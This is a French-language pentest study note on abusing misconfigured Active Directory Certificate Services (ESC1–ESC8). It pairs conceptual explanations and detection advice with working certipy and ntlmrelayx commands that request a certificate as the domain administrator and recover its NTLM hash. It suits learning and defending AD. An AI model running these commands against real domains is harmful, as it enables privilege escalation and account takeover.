

# 🔐 ADCS & Certificats (ESC 1-8)

> [!info] **En 1 phrase**
> ADCS (Active Directory Certificate Services) délivre des **certificats** utilisés pour
> l'authentification (PKINIT). Mal configuré, on peut obtenir un certificat **d'un compte privilégié**
> et s'authentifier à sa place.

---

## 🎯 Concept



> [!info] 💡 **Pourquoi ça marche**
> ADCS lie un **certificat** à un **compte**. Si le template permet de choisir le compte
> (SAN controllable, extension Client Auth...), on peut demander un cert **au nom d'un DA**,
> puis s'authentifier via PKINIT → mêmes pouvoirs.

---

## ⚙️ Les ESC (vulnérabilités principales)

| ESC | Principe |
|---|---|
| **ESC1** | Template "Client Auth" avec **SAN (Subject Alternative Name) contrôlable** → cert pour n'importe qui |
| **ESC2** | Template avec extension **"Any Purpose"** (n'importe quelle utilisation) |
| **ESC3** | **Sous-templates** : un template renvoie vers un autre (enrollment agent) |
| **ESC4** | **Permissions d'écriture** sur le template → on modifie ses propriétés nous-mêmes |
| **ESC6** | `EDITF_ATTRIBUTESUBJECTALTNAME2` activé sur la CA → SAN contrôlable partout |
| **ESC8** | **NTLM relay** vers l'API HTTP de l'ADCS (sans cert) |

> [!warning] 🚨 **ESC8 est le plus courant en réel** : relay vers `http://CA/certsrv/certfnsh.asp`
> permet d'obtenir un certificat d'une **machine** → accès.

---

## 🛠️ Exploitation

```bash
# 1. Trouver les templates vulnérables
certipy find -u user@corp.local -p pass -dc-ip 192.168.1.10 -vulnerable

# 2. ESC1 : demander un cert pour DA
certipy req -u user@corp.local -p pass -ca CORP-CA -target web01 \
            -template VulnTemplate -upn administrator@corp.local

# 3. S'authentifier avec le certificat (PKINIT)
certipy auth -pfx administrator.pfx -dc-ip 192.168.1.10
# → récupère le hash NTLM de administrator

# 4. ESC8 (relay)
ntlmrelayx.py -t http://CA01/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
# → puis certipy auth avec le .pfx récupéré
```

---

## 🔍 Détection & Défense

| Réponse | Détail |
|---|---|
| **Auditer les templates** | Templates avec SAN contrôlable, extensions "Any Purpose" |
| **Désactiver NTLM vers ADCS** | Coupe ESC8 |
| **Certificat Manager / AIA** | Surveiller les demandes de certs anormales |
| **Surveillance** | Événements 4886/4887 (certificat demandé/délivré) |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **L'outil certipy est LE standard Linux**
> Il fait find / req / auth / shadow. Découvre aussi `certipy shadow` (ajout de clés, lien avec [[ACL Abuse AD|Shadow Credentials]]).

> [!warning] ⚠️ **Piège** : le certificat a une durée de vie (souvent 1 an). Il est **récupérable** pour se ré-authentifier même si le mdp change. Pense à la rotation/CRL.

---

## 🔗 Liens

- [[Kerberos - Le protocole|👑 Kerberos]] (PKINIT)
- [[NTLM Relay|🔗 NTLM Relay]] (ESC8)
- [[ACL Abuse AD|🧩 ACL Abuse]] (ESC4)
- → Note complète : [[05 - Active Directory|👑 Active Directory]]
